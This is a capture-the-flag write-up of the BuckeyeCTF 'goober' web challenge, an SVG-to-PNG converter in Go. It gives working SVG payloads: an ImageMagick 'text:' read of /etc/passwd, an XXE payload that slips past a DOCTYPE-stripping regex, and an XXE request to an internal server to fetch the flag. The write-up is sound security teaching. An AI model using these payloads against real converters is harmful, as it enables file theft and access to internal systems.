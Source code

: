 ```yaml
---
layout: post
current: post
cover:  assets/buckeye/nisala/cover2.webp
navigation: True
title: "goober"
date: 2022-11-10 09:00:00
tags: [BuckeyeCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


How on earth do SVGs have so many security vulnerabilities?

## The Challenge

> Javascript has built-in functionality to convert SVGs to PNGs. But Javascript is slow. You know what's fast! Golang! I created goober, the world's first online SVG to PNG converter written in Go.

Alright, so here we have an SVG to PNG converter written in Go. It uses ImageMagick to do the conversion. The website runs on a public server, which is available at `172.10.0.101`. There's also an internal server running at `172.10.0.102` which contains the flag (it's at `172.10.0.102/flag`). So we need to get the flag from the internal server -- but we can only submit to the public server! So I guess we're going to have to make that request using SVGs.

## LFI

Searching around on the Internet, I found out that SVGs can be used to perform local file inclusion, which is an attack that can get arbitrary local files from a server. That LFI can even be used to read text files by putting `text:` in front of the file path (thanks ImageMagick!).

```xml
<svg height="800px" width="800px">
    <image height="800" width="800" href="text:/etc/passwd" />
</svg>
```

And we get a file!
![LFI of /etc/passwd](/assets/buckeye/nisala/lfi1.webp)

Unfortunately, our flag isn't on the public server -- it's on the private server, and we can't use this LFI attack to make HTTP requests. So we need to find another way to get the flag.

## LFI, but again and also more

Now, there's another way to get LFI with SVGs -- XML external entities. It turns out that with XML files, you can include external files in your file. These entities can also be from HTTP requests, so this is perfect for our purposes. And guess what? The XML parser is set up for this! Check out this line in `main.go`:

```go
data, err := libxml2.Parse(input, parser.Option(2))
```

Interesting -- what's `parser.Option(2)`? Looking online, it turns out that it turns on XML external entity parsing. So we can inject entities, right?

```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<svg height="800px" width="800px">
    <text x="0" y="15" font-size="15" fill="red">&xxe;</text>
</svg>
```

Well, not so fast. Before data is put into the parser, the DOCTYPE tag is (supposed to be) removed with the following regex:

```go
reg := regexp.MustCompile(`<!DOCTYPE[^>[]*(\[[^]]*\])?>`)
contentSafe := reg.ReplaceAllString(contents, "")
```

Let's break this regex down. We start with `<!DOCTYPE`. Then, any character that isn't a `>` or `]` is matched. Then, the entity declarations are matched (`[`, anything, `]`), followed by `>` to close off the DOCTYPE tag. 

See the problem? Before entities, we match any characters (extraneous spaces, etc.) -- but after the entity declaration? Nothing. So all we have to do is add a space before `>`:

```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/etc/passwd"> ] >
<svg height="800px" width="800px">
    <text x="0" y="15" font-size="15" fill="red">&xxe;</text>
</svg>
```

And there we go!:
![LFI of /etc/passwd, again](/assets/buckeye/nisala/lfi2.webp)

We can use this same approach to get the flag:
```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "http://goober-internal:5001/flag"> ] >
<svg height="800px" width="800px">
    <text x="0" y="15" font-size="15" fill="red">&xxe;</text>
</svg>
```

![Flag image](/assets/buckeye/nisala/lfi3.webp)

And there's our flag: `buckeye{wh0_n33ds_4n_htm1_c4n4s}`